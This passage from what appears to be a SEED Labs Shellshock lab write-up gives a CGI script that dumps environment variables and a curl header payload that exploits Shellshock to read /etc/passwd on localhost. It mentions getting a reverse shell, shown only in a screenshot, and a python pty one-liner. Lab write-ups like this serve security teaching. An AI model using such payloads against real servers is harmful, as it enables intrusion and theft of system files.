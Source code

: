 ![Screen Shot 2018-11-27 at 8.15.36 PM.png]({{ site.url }}/images/seed/996BAD2C8F38037003528FDB3C709DC9.png)

### 052 Task 3 Passing Data to Bash via Environment Variable

Use a new CGI:

```bash
#!/bin/bash_shellshock
echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```

```bash
curl -H "RAMBO: APTX4869" http://localhost/cgi-bin/myprog.cgi
```

![Screen Shot 2018-11-27 at 8.15.36 PM.png]({{ site.url }}/images/seed/996BAD2C8F38037003528FDB3C709DC9.png)

### 053 Task 4 Launching the Shellshock Attack

Use the CGI above.

```bash
curl -H "x: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi
```

![Screen Shot 2018-11-27 at 8.34.48 PM.png]({{ site.url }}/images/seed/80AC88622F01ACA4177D4C0BB9E2DA7E.png)

### 054 Task 5 Getting a Reverse Shell via Shellshock Attack

For details of reverse shell, see [Linux 反弹shell实践](https://brant-ruan.github.io/sec/2017/11/20/Linux-reverseShell.html).

![Screen Shot 2018-11-27 at 8.39.34 PM.png]({{ site.url }}/images/seed/E0D87603A10FC54185AB110383293D8E.png)

We use `python -c "import pty;pty.spawn('/bin/bash')"` to get a standard shell.

## References

- [Linux 常见问题之：为什么没有产生core 文件](https://jingyan.baidu.com/article/5bbb5a1b13747a13eba17935.html)